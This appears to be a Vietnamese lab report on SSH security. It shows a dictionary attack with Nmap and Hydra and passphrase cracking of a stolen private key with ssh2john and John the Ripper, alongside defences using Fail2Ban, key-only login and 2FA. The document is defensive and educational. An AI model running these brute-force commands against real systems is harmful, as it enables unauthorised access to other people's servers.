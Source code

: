 
# TRIỂN KHAI THỰC NGHIỆM

## 1. Các kịch bản tấn công và phòng thủ

| Đối tượng                | Kịch bản tấn công                        | Phương pháp tấn công | Phương pháp phòng chống  | Công cụ                               |
| ------------------------ | ---------------------------------------- | -------------------- | ------------------------ | ------------------------------------- |
| Kẻ tấn công (Kali Linux) | Thử đăng nhập SSH với danh sách mật khẩu | Dictionary Attack    | SSH Key, Fail2Ban        | Hydra, Python (Paramiko)              |
| Kẻ tấn công              | Bẻ khoá SSH key (passphrase)             | Brute-force SSH Key  | SSHKey + Passphrase mạnh | John the Ripper, Google Authenticator |

## 2. Triển khai kịch bản

### 2.1. Tấn công từ điển và phòng chống

#### a. Tấn công:

**Mô hình:**

* Kali Linux (Attacker) + Ubuntu Server (SSH target)

**Quy trình:**

1. Xác định IP và cổng mục tiêu bằng Nmap:

```bash
nmap -p 22 --open 192.168.1.0/24
```

2. Chuẩn bị danh sách:

* `users.txt` (tên người dùng)
* `passwords.txt` (mật khẩu)

3. Tấn công bằng Hydra:

```bash
hydra -L users.txt -P passwords.txt ssh://192.168.217.135
```

4. Kế tấn công đăng nhập nếu tìm ra:

```bash
ssh buihieu@192.168.217.135
```

5. Hoặc dùng script Python:

* Thư viện: `paramiko`
* Script tự động thử các cặp username/password

#### b. Phòng chống:

##### Cách 1: Dùng Fail2Ban

1. Tạo file `/etc/fail2ban/jail.local`:

```ini
[sshd]
enabled = true
port = ssh
filter = sshd
logpath = /var/log/auth.log
maxretry = 3
bantime = 600
findtime = 600
```

2. Khởi động lại Fail2Ban:

```bash
sudo systemctl restart fail2ban
```

3. Kiểm tra IP bị chặn:

```bash
sudo fail2ban-client status sshd
```

##### Cách 2: Dùng SSH Key

1. Tạo key:

```bash
ssh-keygen -t rsa -b 2048 -f ~/.ssh/test_key -N ""
```

2. Copy public key lên server:

```bash
ssh-copy-id -i ~/.ssh/test_key.pub buihieu@192.168.217.135
```

3. Cấu hình SSH server:

```bash
sudo nano /etc/ssh/sshd_config
```

* Sửa:

```
PasswordAuthentication no
PubkeyAuthentication yes
UsePAM no
```

* Restart SSH:

```bash
sudo systemctl restart ssh
```

4. Đăng nhập bằng private key:

```bash
ssh -i ~/.ssh/test_key buihieu@192.168.217.135
```

### 2.2. Tấn công brute force passphrase SSH key

#### a. Tấn công:

**Giả thiết:** kẻ tấn công đã lấy được file `id_rsa` (private key) và muốn bẻ passphrase.

**Công cụ:** `John the Ripper`

**Thực hiện:**

1. Chuyển đổi key sang định dạng thích hợp:

```bash
ssh2john id_rsa > hash.txt
```

2. Bẻ passphrase:

```bash
john --wordlist=passwords.txt hash.txt
```

3. Nếu bẻ thành công, dùng key đã gỡ bỏ passphrase để SSH:

```bash
ssh -i id_rsa user@target_ip
```

#### b. Phòng chống:

* Dùng passphrase phức tạp
* Kết hợp 2FA (Google Authenticator)

## KếT LUẬN 

Qua thực nghiệm, đã thực hiện tấn công brute-force vào SSH thông qua danh sách tên/mật khẩu và phá passphrase của private key. Qua đó chứng minh tính nguy hiểm của các thiếu sót trong cài đặt SSH.

Tuy nhiên, các phương pháp phòng chống như Fail2Ban, SSH Key và 2FA đã cho thấy hiệu quả cao trong việc ngăn chặn và phát hiện tấn công. Triển khai chính xác và kiểm tra thường xuyên là cách tốt nhất để bảo vệ hệ thống trước nguy cơ từ Internet.
